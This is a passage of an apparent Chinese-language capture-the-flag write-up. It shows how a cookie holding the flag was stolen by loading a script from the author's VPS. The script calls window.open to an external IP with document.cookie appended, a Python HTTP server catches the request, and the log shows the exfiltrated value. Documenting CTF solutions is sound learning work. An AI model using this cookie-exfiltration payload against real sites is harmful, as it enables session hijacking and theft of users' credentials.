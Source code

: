 然后vps上写这么个js文件：`./js/app.js`：

```
root@iZbp14tgce8absspjkxi3iZ:~# cat ./js/app.js
window.open('http://118.31.168.198:39543/'+document.cookie)
```

然后起python：

```
python3 -m http.server 39543
```

再利用`query`打过去，即可得到cookie：

```
root@iZbp14tgce8absspjkxi3iZ:~# python3 -m http.server 39543
Serving HTTP on 0.0.0.0 port 39543 (http://0.0.0.0:39543/) ...
49.235.148.38 - - [10/Jul/2021 16:13:50] code 404, message File not found
49.235.148.38 - - [10/Jul/2021 16:13:50] "GET /js/jquery-1.12.0.js HTTP/1.1" 404 -
49.235.148.38 - - [10/Jul/2021 16:13:50] code 404, message File not found
49.235.148.38 - - [10/Jul/2021 16:13:50] "GET /js/particles.min.js HTTP/1.1" 404 -
49.235.148.38 - - [10/Jul/2021 16:13:50] "GET /js/app.js HTTP/1.1" 200 -
49.235.148.38 - - [10/Jul/2021 16:13:50] code 404, message File not found
49.235.148.38 - - [10/Jul/2021 16:13:50] "GET /flag=ctfshow%7B1d7180b4-ec0b-480e-ab9c-414a38971cd2%7D%0A HTTP/1.1" 404 -

```


























